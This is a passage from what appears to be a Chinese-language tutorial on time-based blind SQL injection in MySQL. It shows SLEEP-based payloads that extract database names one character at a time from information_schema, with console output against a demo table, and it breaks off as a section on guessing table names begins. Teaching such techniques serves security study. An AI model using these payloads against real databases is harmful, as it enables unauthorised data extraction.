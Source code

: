 例如:

修改为0 就是出1库

修改为1 就是出2库



```plain
// 演示数据
mysql> SELECT schema_name FROM information_schema.schemata LIMIT 0,1;
+--------------------+
| schema_name        |
+--------------------+
| information_schema |
+--------------------+
1 row in set (0.00 sec)
```



读取1库库名第一个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0) from 1 for 1)='i') then sleep(5) else 0 end;



```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0) from 1 for 1)='i') then sleep(5) else 0 end;
Empty set (5.00 sec)
```



读取1库库名第二个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0) from 2 for 1)='n') then sleep(5) else 0 end;



```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0) from 2 for 1)='n') then sleep(5) else 0 end;
Empty set (5.00 sec)
```



# 0x05 猜表名



注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据



注意: OFFSET 0 修改会显示其他表名

例如:
